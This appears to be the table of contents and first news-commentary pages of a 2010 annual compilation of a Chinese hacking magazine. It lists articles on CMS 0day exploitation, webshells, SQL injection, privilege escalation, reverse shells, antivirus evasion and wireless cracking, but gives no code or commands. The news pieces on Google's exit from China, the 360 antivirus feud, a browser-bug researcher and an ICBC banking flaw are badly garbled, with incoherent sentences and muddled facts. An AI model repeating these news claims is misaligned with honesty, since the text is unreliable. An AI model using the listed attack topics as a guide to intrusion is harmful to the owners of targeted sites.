# 非安全黑客手册合订本2010年第一部分

---

## 非安全2010全年合订本

国内首本难易度分级制 Hack 学习专刊

基础 → 中级 → 高级

新昕·新知

## 非安全 2010
全年合订本
非安全　出品

## 目录

### 基础

- **新闻短评**
  - Google 的不明智选择 …… 1
  - 安全市场，有客乃大 …… chenchen 1
  - 新闻纵评 …… 2
- **菜鸟扫盲**
  - 从搭建 php web 环境到 php 类 exp 的利用 …… 贝贝 4
- **Q 版黑客**
  - “沙盘”里的 QQ 游戏 …… swan 6
  - 2010 年 3G QQ 继续玩酷 …… Freedom 6
  - QQ 昵称中的大文章 …… 郝安山(freedom) 7
  - 学会如何隐藏 QQ 号码 …… 英雄 8
  - 关于 Windows7 的兼容性与安全性 …… 冰风清韵 @Neusoft 8
  - Win 7，Win 7，关门啦！ …… 牵晓东 10
  - PEID 的面子工程 …… 木羊 11
  - 关于……\ 文件夹的新玩法 …… 某J本 12
  - 记一次特别的盗 QQ 反击！——通过黑客的木马盗菜的 QQ！ …… 鸣刀 13
  - 局域网反击战 …… 菲 & 王兴东 13
  - 漫谈 DoS …… shuichong 14
  - 外挂开发入门篇——QQ 挖金子小挂实战 …… xyz@stu.h4ck.cn 14
  - 病毒自动分析工具 SysAnalyzer …… [雨山][K.F.H] 17
  - 利用 VBS 识别验证码 …… 闫飞 18
  - GPU 大量神秘破密码 …… Gxm 上海思博学院 19
- **肉鸡接龙**
  - KooMail 邮件脚本代码跨域执行漏洞 …… 曲慈文 20
- **另类 HACK**
  - 大学食堂刷出来的免费午餐 …… Myljs[H.T.D] 21
- **特策专题**
  - 三两招轻松解决网络访问故障 …… 风逝水 21
  - 自己动手，利用 IPv6 解决网络故障 …… DarkR4y 22
  - Ubuntu 中 Firefox 使用 tor 代理上网 …… pop 23
  - 一单薄外生意让我认识了 VPN …… 天翼 24
- **Q 版黑客**
  - 揭开 Winrar 最后一个秘密——隐藏注释 …… wangyu1204 27
  - 解决 U 盘写保护问题 …… KashiF [A.S.T] 27
  - 轻松修改 BIOS 的启动 LOGO 画面 …… 侠名 28
  - 小菜来带大家认识 XSS 木马 …… Evil0r[B.S.T] 30
  - 菜鸟必看：利用搜索匹配栏注入 …… funnyevil 32
  - 对某后门程序的一次浅析 …… TSP 33
  - 用 DOS 命令寻找网站下的可疑文件 …… 姚秋芳 34

## Contents

- 一、肉鸡挖掘
  - ECShop_V2.7.2 0day 利用 …… K4shifz[3E.S.T] 35
  - nginx 文件类型错误解析漏洞 …… K4shifz[3E.S.T] 36
- 二、另类 HACK
  - 破解发号软件晚上12点断网限制 …… 小力 37
- 三、Q 版黑客
  - 腾讯微博逃白黑网址 …… 贝贝 39
  - 让 Win 7 进睡之下 …… 年晓东 39
  - 刷流量——你不是一个人在战斗 …… geyibing 40
  - Is my style——游戏个性修改 …… 风斯亦 42
  - 一次简单的肉鸡之旅 …… 樱花浪子 43
  - 搜索引擎优化之黑链优化法及黑链的清除 …… yeweli6 45
  - 伪装成0Day的骇人小把戏——邪恶Unicode …… obaby 46
  - SNMP 弱口令探测信息 …… 赤龙 48
  - 建立刚烈摸的后门 …… GF 50
  - 找回丢失的 Windows 7 密码 …… Pop 51
  - 一次莫名其妙的收获 …… 侠名 52
  - 免费QQ秀，一键获取！ …… 伪烧东 52
- 四、另类 HACK
  - 在 IPOD 中使用 Pirni 嗅探无线网络(中间人攻击) …… Mickey 53
- 五、Q 版黑客
  - 用组策略优化你的 Windows 7 …… 绿城隐士 54
  - 另类破解 windows 系统登录密码 …… 侠名 55
  - 走，上网捣马去！ …… 年晓东 55
  - 戏剧性的见证附带逛 BUG …… GF 57
  - QQ 昵称超强的玩法 …… fredom 58
  - 将代码融于 gif 图片 …… GF 58
- 六、另类 HACK
  - DIY 无线破解器——高增益天线的制作 …… shuichon 59
- 七、功夫熊猫
  - 第一季 功夫熊猫6：Hacker 系漫游记 …… 赤龙 61
  - 第二季 功夫熊猫7：Hacker 系漫游记——阿宝揭密黑色产业 …… 赤龙 65
  - 第三季 功夫熊猫8：dsniff 嗅探全攻略 …… 赤龙 68
  - 第四季 功夫熊猫9：比赛招亲 …… 赤龙 75
- 八、黑小说
  - 黑妹追爱记 …… 燕燕干飞 81
  - 末日追兇 …… 李兴春 82
- 九、黑客文化
  - 采访：剑心 …… NoHack 86
  - 黑小说·天堂 …… 李兴春 88

## 目录

## 黑小说

当幸福来敲门

风逝水 91

### 中级

#### 第一章 西线无战事

- EGshop v1.2 进入漏洞分析与利用 …… 清原反风[B.B.E] 94
- IIS 解析漏洞继续利用 …… test@test.com 96
- 初探 XFS——入库的 XSS …… CCOZ[北洋舰队] 96
- 密码字典 + 扫描器 + LAN 定点入侵 …… 牛晓东 97
- 微软，今天你被黑了吗? …… 天翼 98
- 由入侵校引发的苏亚星 VOD 点播系统 V5.0 漏洞 …… 雪儿 99
- 对 XX 信息网的一次安全检测 …… xiaoc 100
- 对远程服务器的一次渗透 …… Geph0rce 102
- 微软 NT 本地提权，打响 2010 第一枪 …… rabbitsafe 103
- 一个 Discuz 插件漏洞引起的血案 …… rabbitsafe 105
- 友情检测某中学网站 …… x0520 108
- POST 型注入点下的 LOG 备份入侵 …… 耗子 108
- Start 与管道符的强强联手 …… 零零柴 112
- 绕过 ACL 进行非授权访问 …… 逆流风(李友贤) 113
- 对 SABLOG2.X 的漏洞利用 …… Xyzy(北洋舰队 && dtian6) 114
- 防不胜防的 SQL 注入新探 …… JK1986 && ahhacke86 115
- 一次有意思的渗透 …… 清原反风[B.B.E] 116

#### 第二章 新闻练练看

- 晴天电影系统 ODAY 分析与漏洞 …… rabbitsafe 118
- 晴天电影系统(续)——利用江工防站再次拿下系统 …… rabbitsafe 119
- 旧闻新知：DVBBBS8.2 插件上传漏洞利用 …… Simeon 安天365 120
- 刀客连结系统上传漏洞 0Day 分析和利用 …… menzhi007 122
- shopxp 网上购物系统最新版本 ODAY 分析与利用 …… rabbitsafe 123
- PHPvod 漏洞分析和发现 …… EchoEye/侯英海[B.B.E] 125
- XxaspDisk V3.3.2 注入0day …… 清原反风[B.B.E] 127
- CSRF with Flash …… p.z/xsser 128
- lplyv2.0 漏洞分析 …… 侠名 130
- PHPCMS 整站系统 0day 漏洞 …… Bykid@广东科干 131
- 挖掘 PHP 整站程序漏洞的一些思路和经验 …… Bykid@广东科干 133
- 维普信息资源系统漏洞 …… applychen 133
- 基于 sql 控制表访问结果在 web 漏洞挖掘中的应用 …… 三爷 134
- 中字诀——WordPrees、PHPBB 等漏洞分析 …… Tommie(张忆伟) 135
- WordPress 全 WebShell …… Simeon 安天365 137

#### 第三章 安全防御

- 初步了解网络安全防御（上） …… gxml[BST&AKT] 上海思博学院 138
- Nginx 下防御 HTTP GET FLOOD …… air 141
- 批处理注入补充 …… lxhdj 143

## Contents

#### 第一章 Cracker

- 二次破解之附加进程调试——对“热血破解软件”的破解以及安全性分析……★obaby 144
- 双管齐下之搞定 Full Speed……龙虾 147
- 软件破解入门系列四……missvio[a]LCG 148

#### 第二章 网线无战事

- 曲折的 XSS……NetPatch 149
- jsp+oracle 手工注入中国足彩网在线……鬼谷先生@H4CK.CN 151
- 透过深圳科技系统谈谈 ASP 程序常见漏洞……Kashif [S.S.T] 155
- 检测某地方新闻小站……难题 156
- 一次很神的拿 shell 过程……Stream 159
- WRMPS 系统后台拿 webshell……ze0r 160
- 浅谈 Http Put 方法的利用……天翼 160
- 一次黑盒 Code Injection……邦 161
- 跟我一起拿国外 webshell —— Dotnetnuke 远程文件上传漏洞……蓝魔 [N.S.T] 162

#### 第三章 新洞练练看

- ECShop V2.7.2 注射漏洞解析……K4shif[zE.S.T] 163
- 百度跨站利用……菲&土头东 164
- 风似网上购物系统漏洞分析和利用……dark[swust] 165
- 对 Gshop 最新版的漏洞分析……dark[swust] 166
- “买”出来的 PHP168 0day……testset 168
- 详解 Oracle 注入……K4shif[zE.S.T] 170
- 露珠 cms 漏洞分析和利用……dark[swust] 171
- aspx 版 fckeditor 上传漏洞利用……佚名 173

#### 第四章 安全防御

- 三荤两素轻松防御网页的黑手……杨哲 / Longas [ZeRoNe] 173
- 利用 GPG 保护电子邮件通讯安全……黄超毅 / demonalex 176

#### 第五章 黑客兔杀

- 我爱编程，做自己想做的——放倒双引擎的 360……郭波 181
- 深入剖析瑞星 2010 主动防御体系……Vip._威寞 182

#### 第三章 Cracker

- 逆向中的正向——简单展示破解中编程的意义……八部天龙 184
- 简单破解搜搜 QQ 使者 2010 版……王国瑞 184
- 破解外挂之潇潇多开采集 V1.69 正式版……八部天龙 185
- 软件破解入门系列五……missvio[a]LCG 185
- 菜蛙玩破解……ALL 188

#### 第四章 网线无战事

- 两次优美的手工注入……N3t104D 191
- COOKIE 利用，绕过 WEB 应用防火墙……破飞军 192
- mssql_sa 权限的另类提权方法……南拳 Daddy 194
- 从远古漏洞到支付宝密码的完整渗透……Syn 195
- 实例测试 html 静态页面……寒冰 196
- 渗透某站点……Tm3yShell7 197

## 目录

- 1. 友情测试学校网站全过程
- 2. 一个升入点引起的蝴蝶效应

#### 新闻练练看

- PJBlog 路由漏洞
- 对 B2Bbuilder v6.3 安全性分析
- 通过 Metasploit 实现对快播方式漏洞的利用
- 利用 ashx 突破扩展名限制上传文件
- phpcms2008sp4 多个站点漏洞
- phpcms 0day 劫我简单拿 shell
- WeedCMS v4.0 站点注入分析
- 挖掘 AspPar V3.4 漏洞
- 关于所有微博的 XSS 跨站漏洞的深入研究
- 对 QQ2010 空间漏洞的研究
- 带你畅游漏洞商城
- Phpacms 后台验证码漏洞及修补
- 某电厂商务系统注销0day
- 老 Y 文章管理系统 V2.5sp2 多个漏洞分析

### 黑盒艺术

怀具：重谈乌其诺防线的加密软件——对 PDF 加密软件 PDFEncryptor 的安全性分析。

#### 安全防御

- P2P 网络保卫战
- 打造安全的 Web 登录表单

#### 黑客免杀

- 杀毒引擎特点分析入门篇之小红伞（1）
- 针对 API 函数特征码的免杀小技巧

#### 技术点亮生活

- 远离 RSI——我的颈椎我爱护
- 清晨，音乐唤醒我（一）

#### Cracker

- 暴力入篱饮软破解
- 某经典服务端算法逆向分析
- 看我菜鸟三招两式强化 FindWindow 反调试

#### 西线无战事

- 如何把一条微博变成病毒
- show_source 函数的利用技巧
- 写一个 javascript 的 B/S 木马后的随想
- 对美国虚拟主机商的社工渗透
- IP.Board 3.0.x 非创板人获取网站 webshell
- 液析 postgresql 数据库攻击技术
- miceCMS 4.2 权限提升漏洞分析
- 记一次变态网站的曲折入侵

## Contents

- 统计成后 IIS 防火墙继续注入……………………………………www.52cmd.cn 248
- Baigo CMS 登陆框注入分析到利用……………………………………莫良 249
- 对当地一门户站的检测手记……………………………………Stream 250
- Access 表白低修改注入某高校网站……………………………………莫良 252
- 一次曲折的人侵……………………………………EchoEye/侯其涛[B.B.E] 253

### 第四篇 新洞练练霜

- 如何挖掘 PHP 脚本漏洞……………………………………cnryan [wolvez.org] 255
- Destoon B2B 0day 漏洞解析……………………………………K4shifz[W.S.T] 257
- eTop 文中管理系统的漏洞分析……………………………………cnryan 258
- Dedecms v5.3~v5.6 Get Shell 0day 分析……………………………………K4shifz[Z.E.S.T] 260

### 第四篇 安全防御

- 防止网站挂马的实用技术之四……………………………………爱橙小孔·菜客 262
- EventCombMT 帮助查找中毒机器……………………………………smallrascal 263
- 抛出 WebShell 中的后门……………………………………紫色泡泡 264
- 如果你是肉鸡……………………………………军晓东 杨鑫芳 265

### 第四篇 黑客免杀

- 预析卡巴 2011 高启发查杀……………………………………Oath & Vim0x0n 267

### 第四篇 技术点亮生活

- 清晨，音乐就醒我(二)……………………………………smallrascal 267
- 随身邮——非智能机轻松搞定 Push Mail……………………………………smallrascal 268

### 第四篇 Cracker

- 脱天草免费获宠……………………………………Buddha 270
- Regop132 迫码实录……………………………………龙虾 271
- Stud_PE 终端区被出漏洞分析……………………………………int3 273

### 第四篇 无线安全

- 破解中国电信——“我的E家” 无线上网……………………………………杨哲/Longas【ZerOne】274
- 无线攻击技巧系列之四—无线攻击跳板2……………………………………杨哲/Longas【ZerOne】277
- 无线黑客漏洞讲堂系列1：无线路由器认证会话劫持漏洞……………………………………杨哲/Longas【ZerOne】279

### 第四篇 管理维护

- 简简单单多种检测式系统之 VMWare 之 Ghost 篇……………………………………smallrascal 281

### 第四篇 快码加鞭

- 浅谈 Clickjack 技术……………………………………Demon@ 定南中学 286
- asp 解密浅谈……………………………………suwey 286
- JNI 打造 QQHash 获取器……………………………………莫鲍丽 / 吴双中国网开门安全小组 287
- 基于 B/S 架构的木马的制作……………………………………爱橙小孔·菜客 289
- 注入 explorer 实现文件夹的隐藏……………………………………清原长风[B.B.E] 291
- Professional.Rootkits 入门笔记——Kernel Hooks（下）……………………………………w01f5ea 黄毓佳 293
- 三招两式实现升水不死河水——线程同步方法总结……………………………………0rphousV(成) 295

## 目录

### 第二章 高手专栏

- 透过侦像 SSH 密钥搞定其他的机器……mickey@pentest.cc 298
- 以漏洞实例展示国内内部系统安全性……小丑 299

### 第三章 无线黑客

- 破解移动随e行无线网上网认证……睡虫 /moon 301
- 无线黑客漏洞讲堂系列之二——蓝牙攻击之OBEXFTP目录遍历漏洞……杨哲 /Longas [ZerOne] 302

### 第四章 管理维护

- 简简单单移植测试系统至 VMWare 之 VMwareConverter 篇……smallrascal 305
- 解决在虚拟目录下建立风讯的各种问题……Lose 307

### 第五章 快码加编

- 用 vb 打造自己的文件夹监控程序……神圣计划 309
- VC 实现域名转 IP……hacking 310
- Delphi 打造个人专用版软件下载器……DarkR4y 311
- 共享上网很简单……fish 312
- 我的网络注册机……8戒言乌飘 313
- 编程突破在线安全小心窗口查杀……小明 314
- Microsoft Windows Scripting Encoder 解密算法浅析……破C军 316
- 某网游网站 DP 页面数据的分析与获取……magic dog 317

### 第六章 高手专栏

- 浅谈在 WEBSHELL 下如何运行命令……kyo327 320
- 内网渗透之流行手法……樱花浪子[冰点极限] 323

### 第七章 无线黑客

- 破解无线移动 WLAN 随E行之一——拓扑协议分析……睡虫 /moon 327

### 第八章 管理维护

- 简简单单移植测试系统至 VMWare 之 Double-Take 篇……smallrascal 327

### 第九章 快码加编

- 另类的密码输入方法……fish 330
- Windows 消息机制（一）……神圣计划 332
- 打造自己的反向连接 CMDSHELL……DarkR4y 333
- 对照汇编语句与算法在机构机……八部天龙 335
- VC 编程实现获取远程电脑进程……居慈 335
- 菜菜也来探究 Windows 内存管理……Reduta 337
- Salt 值在口令认证中的应用……逆流风(李友欣) 340

### 第十章 快码加编

- Windows 消息机制（二）……神圣计划 342
- Google scanner……xt9 343
- QQ 聊天记录，我也来……郭波 345

### 第十一章 无线黑客

- 无线破解类入门……shuichon 346

## 高级 / Advanced

- **第一章 密码学**
  - 浅谈针对 RSA 1024 的边信道攻击 …… Linuxgod@163.com 349
- **第二章 读编互动**
  - 脑筋不转弯 …… 351
  - Q&A …… 352
  - 50 号信箱 …… 353
- **第三章 反汇编**
  - x86 指令和 xde 长度反汇编引擎解读 …… wolfSea 354
- **第四章 系统底层**
  - 乾坤大挪移——移动更改 MBR …… int 3 356
- **第三章 读编互动**
  - 脑筋不转弯 …… 361
  - 上期答案：黑客手册 5 周年“脑筋不转弯”答案 …… 362
  - Q&A …… 363
  - 50 号信箱 …… 364
- **第三章 系统底层**
  - 浅谈 IA32 平台 C++ 变量的内存地址分布规律 …… Reduta 365
  - 内核驱动入门——手把手零基础入门 …… 鬼谷先生@H4CK.CN 367
- **第三章 读编互动**
  - 脑筋不转弯 …… 370
  - 上期答案：黑客手册 5 周年重生版始版第二季（2010 年 5-7 月合刊）“脑筋不转弯”答案 …… 372
  - Q&A …… 372
  - 50 号信箱 …… 373
- **第四章 系统底层**
  - 黑客编程 1 + 1 系列教程——DLL 劫持技术详解 …… 鬼谷先生@H4CK.CN 374
  - IDA 分析驱动入门 …… 谭立 376
  - 基于 DLL 劫持的 WebShell 提权 …… Reduta 377
- **第四章 读编互动**
  - 脑筋不转弯第四季 问题答案完整版 …… 378
  - 上期答案：黑客手册 5 周年重生版第三季（2010 年 8-10 月合刊）“脑筋不转弯”答案 …… 379
  - 50 号信箱 …… 380
  - 非安全代理商电话 …… 380

### DVD 目录

2010 合订本全辑

- 1－4 月合辑相关软件及代码
- 5－7 月合辑相关软件及代码
- 8－10 月合辑相关软件及代码
- 11－12 月合辑相关软件及代码

#### 非安全宝库

#### OWASP 2010 十大威胁

#### 精选工具

- 漏洞信息管理软件
- Nikto：非常全面的网页扫描器
- Burp Suite：Web 应用程序攻击集成平台
- Nbtscan：在 Windows 网络上收集 NetBIOS 信息
- P0f：新奇的远程 OS 指纹被动判别工具
- Lophtcrack：Windows 密码猜测和恢复程序
- Aircrack：最快的 WEP/WPA 破解工具
- Superscan：只运行于 Windows 平台之上的端口扫描器
- NetStumbler：免费的 Windows 802.11 嗅探器
- Dsniff：一款超强的网络评估和渗透检测工具套装
- THC Hydra：支持多种服务的网络认证破解器
- Paros proxy：网页程序漏洞评估代理
- John the Ripper：支持多平台的密码破解器
- Tcpdump：最经典的网络监控和数据捕获嗅探器
- WebScarab
- Sysinternals：一款强大的非非常全面的 Windows 工具合集
- 安之信网页邮件群发工具
- 开放式计算程序 OpenFC V6.0
- CreateInstall Free V5.8.0 多国语言版
- 超能 SEO 工具 V2.2
- DOS 练习攻击模拟学习器
- 电信 3G 无线上网计时器
- 远洋整站下载工具
- NetSetMan v3.1.1 多国语言版

#### 视频教程

- XSS 入侵教程 30 个集合
- 「eDuh 渗透过程及问题解决
- 再一次在 sniffer 下进行 ARP 欺骗
- Ubuntu 10.10 提权视频动画
- 详讲 Nmap 高级探测系统弱点
- 让网马变成废马
- 如何修复被篡改的网页
- 3389 建后门教程
- 免杀破解 2003 管理员密码
- 钓鱼方法集合及防范
- 映像劫持技术及防御
- 中转注入讲解及突破防注入措施
- 图片的加密及解密介绍
- Linux 平台的密码破解
- Oracle 注射提权动画
- 网站 SU 提权后的漏洞修补
- MD5 校验法保障密码安全
- 详细讲解 Linux 的高级后门
- 数据库盲注和偏移注入
- Google 框架注入攻击演示
- 教你检查 webshell 是否带有后门
- 完全学懂入表免杀之秘技法
- VNC 扫描器巧抓外网肉鸡
- 网站漏洞的修补之 SQL 注入

## ▷ DVD目录


#### 娱乐黑客

### 黑客电影：自由停工期
Freedom Downtime

发行时间：2003年
资源类型：DVDRip
持续时间：60分钟
字幕语言：英文
地区：美国
语言：英语
类型：纪录
导演：支曼努埃尔·戈尔德索因
主演：支曼努埃尔·戈尔德索因
约翰·马可夫
凯文·米勒尼克

简介：电影人为制作的黑客记录片，记录美国骇客凯文等人的历史背景说明，2600 并撰作“释放凯文”的纪录片电影。凯文在1995年因为入侵电脑系统被FBI逮捕，但是他被遗者之后，却一直没有审判，而且屡次被拒绝交保，就这样被监禁了四年，因而2600发起「Free Kevin」的自救行动，要求联邦政府释放他。不仅因为法庭延宕审判，更因为凯文入侵系统之举并未造成任何重大损害，联邦政府也承认凯文个人并未因入侵系统而得到任何利润。2600认为，骇客不应因为「好奇心」而判刑，何况联邦政府的电脑系统不曾对入侵者保密，且此次调查系统之后并未搜集任何联邦政府的档案资料。

### 经典演唱会：Linkin Park —《Live in Madrid》

林肯公园2010年演唱会现场，于11月7日在西班牙马德里举行。

牙马德里录制，这是林肯公园自新专辑《A Thousand Suns》发行之后的第一个完整版现场录像。

专辑曲目：

1. The Requiem
2. Wretches and Kings
3. Papercut
4. New Divide
5. Faint
6. Empty Spaces
7. When They Come For Me
8. Waiting For The End
9. Wisdom, Justice and Love
10. Iridescent
11. Numb
12. The Radiance
13. Breaking The Habit
14. Shadow Of The Day
15. Fallout
16. The Catalyst
17. The Messenger
18. In The End
19. What I've Done
20. Bleed It Out

### 推荐游戏：《极品飞车14：热力追踪3》完整版中文硬盘版

简介：《极品飞车14：热力追踪》(Need for Speed: Hot Pursuit) 是由Criterion Games工作室负责研发，EA公司于年底时将的一款竞速类游戏，也是新一代的热力追踪系列作品。本作将回归到警察追缉模式，允许玩家进行全球网络对战，将再次回归名贵跑车，游戏过程将解锁新的跑车及武器和装备，全新的开放地图。


## Google 的不明智选择

记得 2009 年 12 月，本栏目“闲蛋了 ‘Google危机，微软崛起？’ 的评论，是我看到人们会，谷歌说不再中国从事，从北京离下香港，还找中条件在中国大陆谷歌静止的上一个并不完整的句号。

谷歌撤出中国，已经成为中国互联网讨论的热门事件？谷歌公司高调入华，意图通过建立巨大的“搜索爬虫解决和用户数据”的网络，正式宣布关闭 google.cn，转嫁至国际互联网 google.com.hk。

回顾历史，国际互联网公司在中国的发展和变化并非一成不变，而本土的企业却如鱼得水。淘宝了几年，成为中国 3 亿到 5 亿互联网用户的主要入口之一；而谷歌也一度提出其在中国市场的定位与长期增长。不过，谷歌终究没有摆脱它在中国本地化和政策环境中的困境。

作为从一方看来，华丽而巨大中国的互联网发展应该说还是健康而有趣的，谷歌的退出并不见得中国的互联网不再美好。虽然把中国互联网发展，更多的是对本土企业的成长与发育需求的客观存在，而谷歌的离去，会让人更清醒地看到本地化服务与政策之间的矛盾。

## 第二季

## 安全市场，有容乃大



5 月份的安全软件市场似乎不那么的平静，各位厂商的口水战随着高温的天气逐步升温。与以往的口水战不同的是，“各大门派”的当家掌门开始出现低低，纷纷亮相，主动问答的方式对外发声，火药味十足，颇有大宗师论剑的阵势。

360 的做法“是赤裸裸的病毒行为”，严重侵犯了金山软件公司的合法权益。奇虎公司的 360 安全卫士使用这种流氓式搜集行为，严重破坏了网民的利益。360 当然并不介意，反而进攻性全地以“浏览器争夺”为战意展开了木马软件来发起用户的发动，如此安全软件乱战之势在 5 月呈风起云涌。

门派介绍：360 安全卫士大家一定都不陌生，一直被永久免费策略所推动的老牌工具，似乎在 4、5 个月中以“独特的搜索引擎”轻松上榜，随后在 3 月发力，猛踩飞行的节奏，囊括了市场上 20% 以上的用户。360 安全卫士主打系统漏洞修补、木马查杀和隐私保护，其“防护”能力还在不断扩充。

360 的入局，从单纯的工具出发，逐渐扩展到系统服务和浏览器入口。其定位从“清理垃圾、查杀木马”逐步延伸到“浏览器、搜索引擎、安全云”等多个层面，形成了完整的安全生态。

## NOHACK｜新闻短评

### 2010 第二季

近一半的人是插奇杀毒软件出身，三分之二的人都可以做杀毒软件，都是和神腾一道从奇虎脱颖而来创业，由此可见其实力也是非同一般啊！

### 决斗分析：

面对海量运营和安全大爆发的“可牛”，360也是使出了浑身解数，甚至用到了最先进的“云计算技术”做起了学化的实验。

随着事件的升级，微博也似乎跟着闹得越来越高，进而在高强度的竞争中，达成了网络传播中的“强行打手战”。就不少网友认为，360方面诚意有限，而可牛公司似乎也在同一时间，把“正当商业竞争”拉到了舆论战。

面对这场先发制人的“算计大战”，360也是借由骂战的战术，甚至用“流氓”作为应对面，尽可能将对手牢牢控制在舆论里。360牵动杀毒软件用户的整个舆论情绪，甚至因此也借助“安全普及”的名头，强化其在用户中的影响力。

### 决斗焦点：“用户”：

其实，远近这一个先行点，这场战争争输的是，360是从最早一个手创自己的品牌，现在却要面对互联网竞争的总格局问题，而面对未来的防御门徒，360的生态从未感到足够的威胁的，同时所生的风险也让他们显得十分被动。



引言：2010年黑帽大会（Black Hat 2010），紧接着过攻击手段，使 ATM 自动吐钞、基于浏览器的 Infoshop 作出的 BOSS 单击中诱骗型ATM设备、漏洞不能转危为安中对客户端才华的威胁，最后 BOSS 抛出的名为“黑客趣味十足”的故事竟然出现在今天的中国！

### 中国黑客找出苹果软件 15 TO DAY

如果说“压力的惯”是从纯软件年代来的最佳方法，那么吴石（Wu Shi, 音译）或许便是传统安全领域众多的无名英雄之一。

自 2007 年以来，这位安全上路的 35 岁研究员已经发现并报告了 IE、Safari 和 Chrome 等浏览器在内的 100 多个严重漏洞。当中，涉及到 Chrome 浏览器中的网页时，黑客可使其自动播放惶性弹出的 URL。仅在一年里，他就修复过 50 多个漏洞以及 7500 美元的奖励，其中包括当时被苹果和佛大院评定的最高等级漏洞。

例如，在上月的一次安全更新中，苹果修复了 iPhone 操作系统发布了 64 个新补丁，其中的 33 个漏洞有 6 个是苹果内部研究人员自己发现的，12 个由软件外包人员发现，竟有 15 个是由吴石发现的。

ZI D开发人员无时担忧到了 75 个漏洞，每个都至少价值 5000 美元，而 iDefense 在某些情况下支付的奖励甚至超过了 1 万美元。吴石并不认为一块大牌位，只是在这简单追求其中诀窍，他的收获超过 25 万美元。

### 腾讯取保候审案追踪图 ZD

8月23日下午，腾讯与康等彭迎想联合宣布，双方达成和解协议，康盛创意将成为腾讯的全资子公司，具体交易及法律效力正式完成。此外，包括嘉庭在内的所有成员都将留任，管理团队也将继续保持不变。

### 事件分析：

现在的安全市场群雄割据，各大安全厂商的战线本来就是用血本争夺不死的。几经的胜败甚至更细的舆论和关注，几乎完全。舆论恶化、市场恶化已是不可再复的。要从某一方面说，这是由互联网安全厂商在安全业务上的围绕所展开的竞争升级， 也是国际化、用户口碑、价值等多个维度的竞争。

### 结论：万般的混战，唯有和谐才是生产力！

互联网日益发展成熟的市场，永远容不得恶性竞争。如果相互不兼容、相互不合作不再互联网的发展，广告界、杀毒厂之间的竞争中，都注定不会有什么互利的存在。某些时间在公共讨论中若对入行企业的巨头公开竞争、分歧渐生，且当然可以在安全厂商和机构正向通过之时，未来也将加入舆论和媒体中，取得更多的用户。广告图。

而今社会并不像过去那样是一个完全封闭的过程，用户、开发者、公司和媒体之间的协作都会更开放、更透明。各方应避免以攻击方式争夺注意力，而应以更长期的信任和产品价值赢得市场。

原文所论及的对抗，不仅影响了安全行业的生态，也让所有相关企业在品牌、市场与口碑之间承担更大的风险。倘若为了短期利益而忽视长期建设，最终受损的往往并不只是对手，而是整个行业本身。

类似的案例还有很多，管理团队、研发力量与用户服务共同决定一家企业能否在激烈竞争中走得更远。与其强调“打击”，不如更多强调“合作”与“改进”。

### 工行个人网银被盗区还遭出漏洞

工商银行手机中证监控正在将个人网银里发现一个高威胁的安全漏洞，银可导致攻击者在任意地方利用绑定器将其加入正常抢夺交易、控制工行个人网银后台数据和非法转账。7月尾工行个人网银后经多次漏洞刚开放发布了新的个人网银版本。

编辑点评：原本应在技术上严格保障的安全服务，最终却成为攻击者利用的入口。对于用户来说，及时升级客户端、开启安全提醒与交易验证，仍然是降低风险的关键。

